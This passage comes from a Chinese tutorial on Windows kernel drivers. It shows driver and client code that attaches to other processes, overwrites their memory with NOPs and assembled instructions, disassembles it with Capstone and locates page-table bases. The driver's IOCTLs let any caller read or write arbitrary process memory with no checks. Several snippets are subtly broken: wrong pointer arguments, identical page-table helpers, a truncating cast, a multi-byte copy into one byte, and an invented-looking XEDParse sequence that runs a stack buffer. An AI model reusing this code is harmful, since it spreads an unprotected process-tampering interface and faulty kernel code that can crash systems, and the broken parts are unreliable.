}

/*
将内存中的数据复制到R3中

SrcAddr  R0要复制的地址
DstAddr  返回R3的地址
Size     拷贝长度
*/
NTSTATUS SafeCopyMemory_R0_to_R3(PVOID SrcAddr, PVOID DstAddr, ULONG Size)
{
    PMDL  pSrcMdl = NULL, pDstMdl = NULL;
    PUCHAR pSrcAddress = NULL, pDstAddress = NULL;
    NTSTATUS st = STATUS_UNSUCCESSFUL;

    // 分配MDL 源地址
    pSrcMdl = IoAllocateMdl(SrcAddr, Size, FALSE, FALSE, NULL);
    if (!pSrcMdl)
    {
        return st;
    }

    // 该 MDL 指定非分页虚拟内存缓冲区，并对其进行更新以描述基础物理页。
    MmBuildMdlForNonPagedPool(pSrcMdl);

    // 获取源地址MDL地址
    pSrcAddress = MmGetSystemAddressForMdlSafe(pSrcMdl, NormalPagePriority);


    if (!pSrcAddress)
    {
        IoFreeMdl(pSrcMdl);
        return st;
    }

    // 分配MDL 目标地址
    pDstMdl = IoAllocateMdl(DstAddr, Size, FALSE, FALSE, NULL);
    if (!pDstMdl)
    {
        IoFreeMdl(pSrcMdl);
        return st;
    }

    __try
    {
        // 以写入的方式锁定目标MDL
        MmProbeAndLockPages(pDstMdl, UserMode, IoWriteAccess);

        // 获取目标地址MDL地址
        pDstAddress = MmGetSystemAddressForMdlSafe(pDstMdl, NormalPagePriority);
    }
    __except (EXCEPTION_EXECUTE_HANDLER)
    {
    }

    if (pDstAddress)
    {
        __try
        {
            // 将源地址拷贝到目标地址
            RtlCopyMemory(pDstAddress, pSrcAddress, Size);
        }
        __except (1)
        {
            // 拷贝内存异常
        }
        MmUnlockPages(pDstMdl);
        st = STATUS_SUCCESS;
    }

    IoFreeMdl(pDstMdl);
    IoFreeMdl(pSrcMdl);

    return st;
}
```

调用该函数实现拷贝，此处除去附加进程以外，在拷贝之前调用了`ZwAllocateVirtualMemory`将内存属性设置为`PAGE_EXECUTE_READWRITE`可读可写可执行状态，然后在向该内存中写出`pTempBuffer`变量中的内容，此变量中的数据是`0x90`填充的区域。

此处的`ZwAllocateVirtualMemory`函数，用于在进程的虚拟地址空间中分配一块连续的内存区域，以供进程使用。它属于Windows内核API的一种，与用户态的`VirtualAlloc`函数相似，但是它运行于内核态，可以分配不受用户空间地址限制的虚拟内存，并且可以用于在驱动程序中为自己或其他进程分配内存。

函数的原型为：
```c
NTSYSAPI NTSTATUS NTAPI ZwAllocateVirtualMemory(
  _In_    HANDLE    ProcessHandle,
  _Inout_ PVOID     *BaseAddress,
  _In_    ULONG_PTR ZeroBits,
  _Inout_ PSIZE_T   RegionSize,
  _In_    ULONG     AllocationType,
  _In_    ULONG     Protect
);
```
其中`ProcessHandle`参数是进程句柄，`BaseAddress`是分配到的内存区域的起始地址，`ZeroBits`指定保留的高位，`RegionSize`是分配内存大小，`AllocationType`和`Protect`分别表示内存分配类型和内存保护属性。

ZwAllocateVirtualMemory函数成功返回`NT_SUCCESS`，返回值为0，否则返回相应的错误代码。如果函数成功调用，会将`BaseAddress`参数指向分配到的内存区域的起始地址，同时将`RegionSize`指向的值修改为实际分配到的内存大小。

当内存属性被设置为`PAGE_EXECUTE_READWRITE`之后，则下一步直接调用`SafeCopyMemory_R0_to_R3`进行映射即可，其调用完整案例如下所示；
```c
NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark.com \n");

    NTSTATUS status = STATUS_UNSUCCESSFUL;
    PEPROCESS eproc = NULL;
    KAPC_STATE kpc = { 0 };

    __try
    {
        // HANDLE 进程PID
        status = PsLookupProcessByProcessId((HANDLE)4556, &eproc);

        if (NT_SUCCESS(status))
        {
            // 附加进程
            KeStackAttachProcess(eproc, &kpc);

            // -------------------------------------------------------------------
            // 开始映射
            // -------------------------------------------------------------------

            // 将用户空间内存映射到内核空间
            PVOID pTempBuffer = NULL;
            ULONG nSize = 0x1024;
            PVOID ModuleBase = 0x0000000140001000;

            // 分配内存
            pTempBuffer = RtlAllocateMemory(TRUE, nSize);
            if (pTempBuffer)
            {
                memset(pTempBuffer, 0x90, nSize);

                // 设置内存属性 PAGE_EXECUTE_READWRITE
                ZwAllocateVirtualMemory(NtCurrentProcess(), &ModuleBase, 0, &nSize, MEM_RESERVE, PAGE_EXECUTE_READWRITE);
                ZwAllocateVirtualMemory(NtCurrentProcess(), &ModuleBase, 0, &nSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

                // 将数据拷贝到R3中
                status = SafeCopyMemory_R0_to_R3(pTempBuffer, &ModuleBase, nSize);
                if (NT_SUCCESS(status))
                {
                    DbgPrint("[*] 拷贝内核数据到应用层 \n");
                }
            }

            // 释放空间
            RtlFreeMemory(pTempBuffer);

            // 脱离进程
            KeUnstackDetachProcess(&kpc);
        }
    }
    __except (EXCEPTION_EXECUTE_HANDLER)
    {
        Driver->DriverUnload = UnDriver;
        return STATUS_SUCCESS;
    }

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

拷贝成功后，应用层进程内将会被填充为`Nop`指令。



### 3.6 内核进程汇编与反汇编

在笔者上一篇文章`《内核MDL读写进程内存》`简单介绍了如何通过MDL映射的方式实现进程读写操作，本章将通过如上案例实现远程进程反汇编功能，此类功能也是ARK工具中最常见的功能之一，通常此类功能的实现分为两部分，内核部分只负责读写字节集，应用层部分则配合反汇编引擎对字节集进行解码，此处我们将运用`capstone`引擎实现这个功能。



首先是实现驱动部分，驱动程序的实现是一成不变的，仅仅只是做一个读写功能即可，完整的代码如下所示；
```c
#include <ntifs.h>
#include <windef.h>

#define READ_PROCESS_CODE CTL_CODE(FILE_DEVICE_UNKNOWN,0x800,METHOD_BUFFERED,FILE_ALL_ACCESS)
#define WRITE_PROCESS_CODE CTL_CODE(FILE_DEVICE_UNKNOWN,0x801,METHOD_BUFFERED,FILE_ALL_ACCESS)

#define DEVICENAME L"\\Device\\ReadWriteDevice"
#define SYMBOLNAME L"\\??\\ReadWriteSymbolName"

typedef struct
{
    DWORD pid;       // 进程PID
    UINT64 address;  // 读写地址
    DWORD size;      // 读写长度
    BYTE* data;      // 读写数据集
}ProcessData;

// MDL读取封装
BOOLEAN ReadProcessMemory(ProcessData* ProcessData)
{
    BOOLEAN bRet = TRUE;
    PEPROCESS process = NULL;

    // 将PID转为EProcess
    PsLookupProcessByProcessId(ProcessData->pid, &process);
    if (process == NULL)
    {
        return FALSE;
    }

    BYTE* GetProcessData = NULL;
    __try
    {
        // 分配堆空间 NonPagedPool 非分页内存
        GetProcessData = ExAllocatePool(NonPagedPool, ProcessData->size);
    }
    __except (1)
    {
        return FALSE;
    }

    KAPC_STATE stack = { 0 };
    // 附加到进程
    KeStackAttachProcess(process, &stack);

    __try
    {
        // 检查进程内存是否可读取
        ProbeForRead(ProcessData->address, ProcessData->size, 1);

        // 完成拷贝
        RtlCopyMemory(GetProcessData, ProcessData->address, ProcessData->size);
    }
    __except (1)
    {
        bRet = FALSE;
    }

    // 关闭引用
    ObDereferenceObject(process);

    // 解除附加
    KeUnstackDetachProcess(&stack);

    // 拷贝数据
    RtlCopyMemory(ProcessData->data, GetProcessData, ProcessData->size);

    // 释放堆
    ExFreePool(GetProcessData);
    return bRet;
}

// MDL写入封装
BOOLEAN WriteProcessMemory(ProcessData* ProcessData)
{
    BOOLEAN bRet = TRUE;
    PEPROCESS process = NULL;

    // 将PID转为EProcess
    PsLookupProcessByProcessId(ProcessData->pid, &process);
    if (process == NULL)
    {
        return FALSE;
    }

    BYTE* GetProcessData = NULL;
    __try
    {
        // 分配堆
        GetProcessData = ExAllocatePool(NonPagedPool, ProcessData->size);
    }
    __except (1)
    {
        return FALSE;
    }

    // 循环写出
    for (int i = 0; i < ProcessData->size; i++)
    {
        GetProcessData[i] = ProcessData->data[i];
    }

    KAPC_STATE stack = { 0 };

    // 附加进程
    KeStackAttachProcess(process, &stack);

    // 分配MDL对象
    PMDL mdl = IoAllocateMdl(ProcessData->address, ProcessData->size, 0, 0, NULL);
    if (mdl == NULL)
    {
        return FALSE;
    }

    MmBuildMdlForNonPagedPool(mdl);

    BYTE* ChangeProcessData = NULL;

    __try
    {
        // 锁定地址
        ChangeProcessData = MmMapLockedPages(mdl, KernelMode);

        // 开始拷贝
        RtlCopyMemory(ChangeProcessData, GetProcessData, ProcessData->size);
    }
    __except (1)
    {
        bRet = FALSE;
        goto END;
    }

    // 结束释放MDL关闭引用取消附加
END:
    IoFreeMdl(mdl);
    ExFreePool(GetProcessData);
    KeUnstackDetachProcess(&stack);
    ObDereferenceObject(process);

    return bRet;
}

NTSTATUS DriverIrpCtl(PDEVICE_OBJECT device, PIRP pirp)
{
    PIO_STACK_LOCATION stack;
    stack = IoGetCurrentIrpStackLocation(pirp);
    ProcessData* ProcessData;

    switch (stack->MajorFunction)
    {

    case IRP_MJ_CREATE:
    {
        break;
    }

    case IRP_MJ_CLOSE:
    {
        break;
    }

    case IRP_MJ_DEVICE_CONTROL:
    {
        // 获取应用层传值
        ProcessData = pirp->AssociatedIrp.SystemBuffer;

        DbgPrint("进程ID: %d | 读写地址: %p | 读写长度: %d \n", ProcessData->pid, ProcessData->address, ProcessData->size);

        switch (stack->Parameters.DeviceIoControl.IoControlCode)
        {
        // 读取函数
        case READ_PROCESS_CODE:
        {
            ReadProcessMemory(ProcessData);
            break;
        }
        // 写入函数
        case WRITE_PROCESS_CODE:
        {
            WriteProcessMemory(ProcessData);
            break;
        }

        }

        pirp->IoStatus.Information = sizeof(ProcessData);
        break;
    }

    }

    pirp->IoStatus.Status = STATUS_SUCCESS;
    IoCompleteRequest(pirp, IO_NO_INCREMENT);
    return STATUS_SUCCESS;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    if (driver->DeviceObject)
    {
        UNICODE_STRING SymbolName;
        RtlInitUnicodeString(&SymbolName, SYMBOLNAME);

        // 删除符号链接
        IoDeleteSymbolicLink(&SymbolName);
        IoDeleteDevice(driver->DeviceObject);
    }
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    NTSTATUS status = STATUS_SUCCESS;
    PDEVICE_OBJECT device = NULL;
    UNICODE_STRING DeviceName;

    DbgPrint("[LyShark] hello lyshark.com \n");

    // 初始化设备名
    RtlInitUnicodeString(&DeviceName, DEVICENAME);

    // 创建设备
    status = IoCreateDevice(Driver, sizeof(Driver->DriverExtension), &DeviceName, FILE_DEVICE_UNKNOWN, FILE_DEVICE_SECURE_OPEN, FALSE, &device);
    if (status == STATUS_SUCCESS)
    {
        UNICODE_STRING SymbolName;
        RtlInitUnicodeString(&SymbolName, SYMBOLNAME);

        // 创建符号链接
        status = IoCreateSymbolicLink(&SymbolName, &DeviceName);

        // 失败则删除设备
        if (status != STATUS_SUCCESS)
        {
            IoDeleteDevice(device);
        }
    }

    // 派遣函数初始化
    Driver->MajorFunction[IRP_MJ_CREATE] = DriverIrpCtl;
    Driver->MajorFunction[IRP_MJ_CLOSE] = DriverIrpCtl;
    Driver->MajorFunction[IRP_MJ_DEVICE_CONTROL] = DriverIrpCtl;

    // 卸载驱动
    Driver->DriverUnload = UnDriver;

    return STATUS_SUCCESS;
}
```

上方的驱动程序很简单其中的关键部分已经做好了备注，接下来才是本节课的重点，让我们开始了解一下`Capstone`这款反汇编引擎吧！

#### 3.6.1 内存反汇编的应用

Capstone 是一款轻量级、多平台、多架构的反汇编引擎，旨在成为二进制分析和反汇编的终极工具。它支持多种平台和架构的反汇编，包括x86、ARM、MIPS等，并且可以轻松地集成到各种二进制分析工具中。Capstone的主要优点是它易于使用和快速的反汇编速度，而且由于其开源和活跃的社区支持，可以很容易地更新和维护。因此，Capstone被广泛用于二进制分析、安全研究和反汇编工作中。

 - 反汇编引擎GitHub地址：https://github.com/capstone-engine

这款反汇编引擎如果你想要使用它，则第一步就是调用`cs_open()`打开一个句柄，这个打开功能的函数原型如下所示；
```c
cs_err cs_open(
  cs_arch arch,
  cs_mode mode,
  csh *handle
);
```

 - 参数 arch：指定架构类型，例如 `CS_ARCH_X86` 表示为 x86 架构。
 - 参数 mode：指定模式，例如 `CS_MODE_32` 表示为 32 位模式。
 - 参数 handle：打开的句柄，用于后续对引擎的调用。由于其是传递指针的方式，因此需要先分配好该指针的内存。函数执行成功后，该句柄将被填充，可以用于后续的反汇编操作。

函数`cs_open()`是`Capstone`反汇编引擎提供的，它用于初始化`Capstone`库并打开一个句柄，以便进行后续的反汇编操作。该函数有三个参数，分别是架构类型、执行模式和指向句柄的指针。

具体地说，第一个参数`CS_ARCH_X86`指定了反汇编的架构类型，这里表示为Windows平台；第二个参数`CS_MODE_32`或`CS_MODE_64`则指定了反汇编的执行模式，即32位模式或64位模式；第三个参数则是指向一个`Capstone`库句柄的指针，通过该指针可以进行后续的反汇编操作。

打开句柄后，我们可以使用其他的`Capstone`函数进行反汇编操作，比如`cs_disasm()`函数用于对二进制代码进行反汇编，反汇编后的结果可以用于分析和理解程序的行为。最后，我们还需要使用`cs_close()`函数关闭打开的句柄以释放资源。

第二步也是最重要的一步，调用`cs_disasm()`反汇编函数，函数返回实际反汇编的指令数，或者如果发生错误，则返回0。该函数的原型如下所示；
```c
size_t cs_disasm(
  csh handle, 
  const uint8_t *code, 
  size_t code_size, 
  uint64_t address, 
  size_t count, 
  cs_insn *insn
  );
```

其中各参数的含义为：

 - 参数 handle：要使用的Capstone引擎的句柄，指定dasm_handle反汇编句柄
 - 参数 code：要反汇编的二进制代码的指针，定你要反汇编的数据集或者是一个缓冲区
 - 参数 code_size：要反汇编的二进制代码的大小（以字节为单位），指定你要反汇编的长度64
 - 参数 address：要反汇编的二进制代码在内存中的地址（用于计算跳转目标地址），输出的内存地址起始位置 0x401000
 - 参数 count：要反汇编的指令数量限制。如果设置为0，则表示没有数量限制，将会反汇编所有有效的指令
 - 参数 insn：用于存储反汇编结果的结构体数组。它是一个输出参数，由调用者分配内存。用于输出数据的一个指针

如上所示的`cs_open()`以及`cs_disasm()`两个函数如果能搞明白，那么反汇编完整代码即可写出来了，根据如下流程实现；

 - 创建一个句柄 `handle`，用于连接到驱动程序。
 - 定义 `ProcessData` 结构体，包含需要读取的进程 ID、起始地址、读取的字节数以及存储读取结果的 `BYTE` 数组。
 - 使用 `DeviceIoControl()` 函数从指定进程读取机器码，将结果存储到 `data` 结构体的 `data` 字段中。
 - 使用 `cs_open()` 函数打开 `Capstone` 引擎的句柄 `dasm_handle`，指定了架构为 `x86` 平台，模式为 `32` 位。
 - 使用 `cs_disasm()` 函数将 `data` 结构体中的机器码进行反汇编，将结果存储到 `insn` 数组中，同时返回反汇编指令的数量 count。
 - 循环遍历 `insn` 数组，将每个反汇编指令的地址、长度、助记符和操作数打印出来。
 - 使用 `cs_free()` 函数释放 `insn` 数组占用的内存。
 - 使用 `cs_close()` 函数关闭 `Capstone` 引擎的句柄 dasm_handle。
 - 关闭连接到驱动程序的句柄 `handle`。

根据如上实现流程，我们可以写出如下代码片段；
```c
#define _CRT_SECURE_NO_WARNINGS
#include <Windows.h>
#include <iostream>
#include <inttypes.h>
#include <capstone/capstone.h>

#pragma comment(lib,"capstone64.lib")

#define READ_PROCESS_CODE CTL_CODE(FILE_DEVICE_UNKNOWN,0x800,METHOD_BUFFERED,FILE_ALL_ACCESS)
#define WRITE_PROCESS_CODE CTL_CODE(FILE_DEVICE_UNKNOWN,0x801,METHOD_BUFFERED,FILE_ALL_ACCESS)

typedef struct
{
    DWORD pid;
    UINT64 address;
    DWORD size;
    BYTE* data;
}ProcessData;

int main(int argc, char* argv[])
{
    // 连接到驱动
    HANDLE handle = CreateFileA("\\??\\ReadWriteSymbolName", GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

    ProcessData data;
    DWORD dwSize = 0;

    // 指定需要读写的进程
    data.pid = 6932;
    data.address = 0x401000;
    data.size = 64;

    // 读取机器码到BYTE字节数组
    data.data = new BYTE[data.size];
    DeviceIoControl(handle, READ_PROCESS_CODE, &data, sizeof(data), &data, sizeof(data), &dwSize, NULL);
    for (int i = 0; i < data.size; i++)
    {
        printf("0x%02X ", data.data[i]);
    }

    printf("\n");

    // 开始反汇编
    csh dasm_handle;
    cs_insn *insn;
    size_t count;

    // 打开句柄
    if (cs_open(CS_ARCH_X86, CS_MODE_32, &dasm_handle) != CS_ERR_OK)
    {
        return 0;
    }

    // 反汇编代码
    count = cs_disasm(dasm_handle, (unsigned char *)data.data, data.size, data.address, 0, &insn);

    if (count > 0)
    {
        size_t index;
        for (index = 0; index < count; index++)
        {
            /*
            for (int x = 0; x < insn[index].size; x++)
            {
                printf("机器码: %d -> %02X \n", x, insn[index].bytes[x]);
            }
            */

            printf("地址: 0x%"PRIx64" | 长度: %d 反汇编: %s %s \n", insn[index].address, insn[index].size, insn[index].mnemonic, insn[index].op_str);
        }
        cs_free(insn, count);
    }
    cs_close(&dasm_handle);

    getchar();
    CloseHandle(handle);
    return 0;
}
```
通过驱动加载工具加载`WinDDK.sys`然后在运行本程序，你会看到正确的输出结果，反汇编当前位置处向下`64`字节。



#### 3.6.2 内存汇编的应用

实现了反汇编接着就需要讲解如何对内存进行汇编操作，汇编引擎这里采用了`XEDParse`该引擎小巧简洁，著名的`x64dbg`就是在运用本引擎进行汇编替换的，XEDParse 是一个开源的汇编引擎，用于将汇编代码转换为二进制指令。它基于`Intel`的XED库，并提供了一些易于使用的接口。

 - 汇编引擎GitHub地址：https://github.com/x64dbg/XEDParse

一般而言，再进行汇编转换之前需要做如下几个步骤的工作；

1.定义`xed_state_t`结构体，该结构体包含有关目标平台的信息，例如处理器架构和指令集。可以使用`xed_state_zero()`函数来初始化该结构体。
```c
xed_state_t state;
xed_state_zero(&state);
state.mmode = XED_MACHINE_MODE_LONG_64;
state.stack_addr_width = XED_ADDRESS_WIDTH_64b;
```
2.定义`xed_error_enum_t`类型的变量来接收转换过程中可能出现的错误信息。
```c
xed_error_enum_t error = XED_ERROR_NONE;
```
3.定义`xed_encoder_request_t`结构体，该结构体包含要转换的汇编指令的信息，例如操作码和操作数。
```c
xed_encoder_request_t request;
xed_encoder_request_zero_set_mode(&request, &state);
request.iclass = XED_ICLASS_MOV;
request.operand_order[0] = 0;
request.operand_order[1] = 1;
request.operands[0].name = XED_REG_RAX;
request.operands[1].name = XED_REG_RBX;
```
4.使用`XEDParseAssemble()`函数将汇编代码转换为二进制指令，并将结果存储在`xed_uint8_t`类型的数组中。此函数返回转换后的指令长度。
```c
xed_uint8_t binary[15];
xed_uint_t length = XEDParseAssemble(&request, binary, sizeof(binary), &error);
if (error != XED_ERROR_NONE) {
  // handle error
}
```
5.使用转换后的二进制指令进行后续操作。
```c
typedef int (*func_t)(void);
func_t func = (func_t)binary;
int result = func();
```

在本次转换流程中我们只需要向`XEDParseAssemble()`函数传入一个规范的结构体即可完成转换，通过向`XEDPARSE`结构传入需要转换的指令，并自动转换为机器码放入到`data.data`堆中，实现核心代码如下所示；
```c
#define _CRT_SECURE_NO_WARNINGS
#include <Windows.h>
#include <iostream>

extern "C"
{
#include "D:/XEDParse/XEDParse.h"
#pragma comment(lib, "D:/XEDParse/XEDParse_x64.lib")
}

using namespace std;

#define READ_PROCESS_CODE CTL_CODE(FILE_DEVICE_UNKNOWN,0x800,METHOD_BUFFERED,FILE_ALL_ACCESS)
#define WRITE_PROCESS_CODE CTL_CODE(FILE_DEVICE_UNKNOWN,0x801,METHOD_BUFFERED,FILE_ALL_ACCESS)

typedef struct
{
    DWORD pid;
    UINT64 address;
    DWORD size;
    BYTE* data;
}ProcessData;

int main(int argc, char* argv[])
{
    // 连接到驱动
    HANDLE handle = CreateFileA("\\??\\ReadWriteSymbolName", GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

    ProcessData data;
    DWORD dwSize = 0;

    // 指定需要读写的进程
    data.pid = 6932;
    data.address = 0x401000;
    data.size = 0;

    XEDPARSE xed = { 0 };
    xed.x64 = FALSE;

    // 输入一条汇编指令并转换
    scanf_s("%llx", &xed.cip);
    gets_s(xed.instr, XEDPARSE_MAXBUFSIZE);
    if (XEDPARSE_OK != XEDParseAssemble(&xed))
    {
        printf("指令错误: %s\n", xed.error);
    }

    // 生成堆
    data.data = new BYTE[xed.dest_size];

    // 设置长度
    data.size = xed.dest_size;

    for (size_t i = 0; i < xed.dest_size; i++)
    {
        // 替换到堆中
        printf("%02X ", xed.dest[i]);
        data.data[i] = xed.dest[i];
    }

    // 调用控制器，写入到远端内存
    DeviceIoControl(handle, WRITE_PROCESS_CODE, &data, sizeof(data), &data, sizeof(data), &dwSize, NULL);

    printf("[LyShark] 指令集已替换. \n");
    getchar();
    CloseHandle(handle);
    return 0;
}
```

通过驱动加载工具加载`WinDDK.sys`然后在运行本程序，你会看到正确的输出结果，可打开反内核工具验证是否改写成功。



打开反内核工具，并切换到观察是否写入了一条`mov eax,1`的指令集机器码，如下图已经完美写入。



### 3.7 内核解析内存四级页表

当今操作系统普遍采用64位架构，这意味着CPU寄存器的位数、内存地址总线宽度、指令集等都可以支持64位，从而提高了系统的计算能力和内存管理能力。具体来说，在64位操作系统中，CPU的最大寻址能力为64位，可以寻址的内存空间大小为2^64，这是一个非常庞大的地址空间。

然而，由于实际系统所使用的物理内存大小是有限的，为了高效利用内存，操作系统采用了分页机制进行内存管理。分页机制将整个物理内存划分成固定大小的页框，一般为4KB或者2MB，每个页框都有一个对应的页表项来描述它的物理地址。而虚拟内存则被分成对应的虚拟页，每个虚拟页也有对应的页表项，用来映射到物理页框上。

在64位操作系统中，内存管理采用了`9-9-9-9-12`的分页模式，表示物理地址拥有`四级页表`。具体来说，微软将这四级依次命名为`PXE、PPE、PDE、PTE`这四项。其中，PXE表示最高级别的页表，每个PXE项可以映射512GB的物理地址范围；PPE表示第二级页表，每个PPE项可以映射1GB的物理地址范围；PDE表示第三级页表，每个PDE项可以映射2MB的物理地址范围；PTE表示最低级别的页表，每个PTE项可以映射4KB的物理地址范围。

通过这种分页模式，操作系统可以高效地管理大量的内存，同时还可以提高内存的访问效率。每个进程都有自己独立的虚拟地址空间，通过虚拟地址可以方便地访问相应的物理内存。这种机制还可以实现虚拟内存，使得进程可以访问比实际物理内存更大的虚拟内存，从而提高了系统的运行效率和稳定性。

总结为一段话就是CPU最大寻址能力虽然达到了64位，但其实仅仅只是用到了48位进行寻址，其内存管理采用了`9-9-9-9-12`的分页模式，`9-9-9-9-12`分页表示物理地址拥有四级页表，微软将这四级依次命名为PXE、PPE、PDE、PTE这四项。

首先一个PTE管理1个分页大小的内存也就是`0x1000`字节，PTE结构的解析非常容易，打开WinDBG输入`!PTE 0`即可解析，如下所示，当前地址0位置处的PTE基址是`FFFF898000000000`，由于PTE的一个页大小是`0x1000`所以当内存地址高于`0x1000`时将会切换到另一个页中，如下`FFFF898000000008`则是另一个页中的地址。
```c
0: kd> !PTE 0
                                           VA 0000000000000000
PXE at FFFF89C4E2713000    PPE at FFFF89C4E2600000    PDE at FFFF89C4C0000000    PTE at FFFF898000000000
contains 8A0000000405F867  contains 0000000000000000
pfn 405f      ---DA--UW-V  not valid

0: kd> !PTE 0x1000
                                           VA 0000000000001000
PXE at FFFF89C4E2713000    PPE at FFFF89C4E2600000    PDE at FFFF89C4C0000000    PTE at FFFF898000000008
contains 8A0000000405F867  contains 0000000000000000
pfn 405f      ---DA--UW-V  not valid
```

由于PTE是动态变化的，找到该地址的关键就在于通过`MmGetSystemRoutineAddress`函数动态得到`MmGetVirtualForPhysical`的内存地址，然后向下扫描特征寻找`mov rdx,0FFFF8B0000000000h`并将内部的地址提取出来。



这段代码完整版如下所示，代码可动态定位到PTE的内存地址，然后将其取出；
```c
#include <ntifs.h>
#include <ntstrsafe.h>

// 指定内存区域的特征码扫描
PVOID SearchMemory(PVOID pStartAddress, PVOID pEndAddress, PUCHAR pMemoryData, ULONG ulMemoryDataSize)
{
    PVOID pAddress = NULL;
    PUCHAR i = NULL;
    ULONG m = 0;

    // 扫描内存
    for (i = (PUCHAR)pStartAddress; i < (PUCHAR)pEndAddress; i++)
    {
        // 判断特征码
        for (m = 0; m < ulMemoryDataSize; m++)
        {
            if (*(PUCHAR)(i + m) != pMemoryData[m])
            {
                break;
            }
        }
        // 判断是否找到符合特征码的地址
        if (m >= ulMemoryDataSize)
        {
            // 找到特征码位置, 获取紧接着特征码的下一地址
            pAddress = (PVOID)(i + ulMemoryDataSize);
            break;
        }
    }

    return pAddress;
}

// 获取到函数地址
PVOID GetMmGetVirtualForPhysical()
{
    PVOID VariableAddress = 0;
    UNICODE_STRING uioiTime = { 0 };

    RtlInitUnicodeString(&uioiTime, L"MmGetVirtualForPhysical");
    VariableAddress = (PVOID)MmGetSystemRoutineAddress(&uioiTime);
    if (VariableAddress != 0)
    {
        return VariableAddress;
    }
    return 0;
}

// 驱动卸载例程
VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("Uninstall Driver \n");
}

// 驱动入口地址
NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("Hello LyShark \n");

    // 获取函数地址
    PVOID address = GetMmGetVirtualForPhysical();

    DbgPrint("GetMmGetVirtualForPhysical = %p \n", address);

    UCHAR pSecondSpecialData[50] = { 0 };
    ULONG ulFirstSpecialDataSize = 0;

    pSecondSpecialData[0] = 0x48;
    pSecondSpecialData[1] = 0xc1;
    pSecondSpecialData[2] = 0xe0;
    ulFirstSpecialDataSize = 3;

    // 定位特征码
    PVOID PTE = SearchMemory(address, (PVOID)((PUCHAR)address + 0xFF), pSecondSpecialData, ulFirstSpecialDataSize);
    __try
    {
        PVOID lOffset = (ULONG)PTE + 1;
        DbgPrint("PTE Address = %p \n", lOffset);
    }
    __except (EXCEPTION_EXECUTE_HANDLER)
    {
        DbgPrint("error");
    }

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

运行如上代码可动态获取到当前系统的PTE地址，然后将PTE填入到`g_PTEBASE`中，即可实现解析系统内的四个标志位，完整解析代码如下所示；
```c
#include <ntifs.h>
#include <ntstrsafe.h>

INT64 g_PTEBASE = 0;
INT64 g_PDEBASE = 0;
INT64 g_PPEBASE = 0;
INT64 g_PXEBASE = 0;

PULONG64 GetPteBase(PVOID va)
{
    return (PULONG64)((((ULONG64)va & 0xFFFFFFFFFFFF) >> 12) * 8) + g_PTEBASE;
}

PULONG64 GetPdeBase(PVOID va)
{
    return (PULONG64)((((ULONG64)va & 0xFFFFFFFFFFFF) >> 12) * 8) + g_PDEBASE;
}

PULONG64 GetPpeBase(PVOID va)
{
    return (PULONG64)((((ULONG64)va & 0xFFFFFFFFFFFF) >> 12) * 8) + g_PPEBASE;
}

PULONG64 GetPxeBase(PVOID va)
{
    return (PULONG64)((((ULONG64)va & 0xFFFFFFFFFFFF) >> 12) * 8) + g_PXEBASE;
}

// 驱动卸载例程
VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("Uninstall Driver \n");
}

// 驱动入口地址
NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("Hello LyShark \n");

    g_PTEBASE = 0XFFFFF20000000000;

    g_PDEBASE = (ULONG64)GetPteBase((PVOID)g_PTEBASE);
    g_PPEBASE = (ULONG64)GetPteBase((PVOID)g_PDEBASE);
    g_PXEBASE = (ULONG64)GetPteBase((PVOID)g_PPEBASE);

    DbgPrint("PXE = %p \n", g_PXEBASE);
    DbgPrint("PPE  = %p \n", g_PPEBASE);
    DbgPrint("PDE  = %p \n", g_PDEBASE);
    DbgPrint("PTE  = %p \n", g_PTEBASE);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

我的系统内PTE地址为`0XFFFFF20000000000`，填入变量内解析效果如下图所示；



### 3.8 内核读写内存浮点数

如前所述，在前几章内容中笔者简单介绍了内存读写的基本实现方式，这其中包括了CR3切换读写，MDL映射读写，内存拷贝读写，本章将在如前所述的读写函数进一步封装，并以此来实现驱动读写内存浮点数的目的。

内存浮点数的读写依赖于`读写内存字节`的实现，因为浮点数本质上也可以看作是一个字节集，对于`单精度浮点数`来说这个字节集列表是4字节，而对于`双精度浮点数`，此列表长度则为8字节。

如下代码片段摘取自本人的`LyMemory`驱动读写项目，函数`ReadProcessMemoryByte`用于读取内存特定字节类型的数据，函数`WriteProcessMemoryByte`则用于写入字节类型数据，完整代码如下所示；

这段代码中依然采用了`《内核MDL读写进程内存》`中所示的读写方法，通过MDL附加到进程并`RtlCopyMemory`拷贝数据，至于如何读写字节集只需要循环读写即可实现；

```c
#include <ntifs.h>
#include <windef.h>

// 读取内存字节
BYTE ReadProcessMemoryByte(HANDLE Pid, ULONG64 Address, DWORD Size)
{
    KAPC_STATE state = { 0 };
    BYTE OpCode;

    PEPROCESS Process;
    PsLookupProcessByProcessId((HANDLE)Pid, &Process);

    // 绑定进程对象,进入进程地址空间
    KeStackAttachProcess(Process, &state);

    __try
    {
        // ProbeForRead 检查内存地址是否有效, RtlCopyMemory 读取内存
        ProbeForRead((HANDLE)Address, Size, 1);
        RtlCopyMemory(&OpCode, (BYTE *)Address, Size);
    }
    __except (EXCEPTION_EXECUTE_HANDLER)
    {
        // 调用KeUnstackDetachProcess解除与进程的绑定,退出进程地址空间
        KeUnstackDetachProcess(&state);

        // 让内核对象引用数减1
        ObDereferenceObject(Process);
        // DbgPrint("读取进程 %d 的地址 %x 出错", ptr->Pid, ptr->Address);
        return FALSE;
    }

    // 解除绑定
    KeUnstackDetachProcess(&state);
    // 让内核对象引用数减1
    ObDereferenceObject(Process);
